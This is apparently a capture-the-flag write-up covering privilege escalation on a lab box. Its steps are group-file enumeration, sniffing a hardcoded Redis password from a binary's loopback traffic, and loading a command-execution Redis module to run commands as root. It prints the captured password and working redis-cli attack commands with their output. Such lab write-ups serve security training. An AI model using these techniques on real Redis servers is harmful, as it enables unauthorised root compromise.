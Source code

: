 ## Enumeration
Land a new SSH session as dan_smith and check out the groups to see a new one: ```1003(sysadmin)```
Find files belonging to this group:
```bash
$ find / -type f -group sysadmin -ls 2>/dev/null
    17914   5836 -rwxr-x---   1 root     sysadmin  5974154 Mar 20  2022 /usr/local/bin/redis_connector_dev
```
It should be noted from running pspy earlier that there is indeed a redis server running on this box. This can be easily confirmed with netstat (port 6379 is the default for redis-server): 
```bash
$ netstat -alnp | grep -i listen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
[TRUNCATED]
```
## Redis password
Run the sysadmin file that was enumerated previously:
```bash
$ /usr/local/bin/redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:6997
run_id:4016907403a8f29dbaade06534b9e560cad9bcd0
tcp_port:6379
uptime_in_seconds:36
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:5526078
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
```
The redis password is stored in ```/etc/redis/redis.conf``` which only root can read. This means this file must have the password hardcoded, and iff the password is hardcoded, it's possible that the sysadmin executable is submitting it to the server in clear text.
Download the sysadmin file to the attacking machine and start up Wire shark and redis server. Make sure that redis is configured to require a password. Use wireshark to begin listening on the loop back interface, then run the executable. Wireshark will see some traffic which reveals what appears to be a base64 encoded string...
![[Pasted image 20221022153519.png]]
Try that weird base64 as a password? 
```bash
$ redis-cli -a 'F2WHqJUz2WEz=Gqq'                            
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> info                                                                                                                                          
# Server                                                                       
redis_version:6.0.15                                                           
redis_git_sha1:00000000                                                                                                                                       
redis_git_dirty:0
[TRUNCATED]
```
## Command execution through modules
So there has to be a reason for jumping through all of those hoops right? After doing some googling, find a GitHub repository that claims there is system command execution through redis-server's module functionality: ```https://github.com/n0b0dyCN/RedisModules-ExecuteCommand``` 
![[Pasted image 20221022153836.png]]
Seems easy enough!
- Clone the repo
- Create the module file with make and then download it onto the victim box
- Move the file to ```/dev/shm``` and chmod it to make it executable 
```bash
$ redis-cli -a 'F2WHqJUz2WEz=Gqq'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> module load /dev/shm/module.so
OK
127.0.0.1:6379> module list
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
127.0.0.1:6379> system.exec 'id'
"uid=0(root) gid=0(root) groups=0(root)\n"
```
From here out it's pretty easy to get a reverse shell or just leak the root flag at ```/root/root.txt```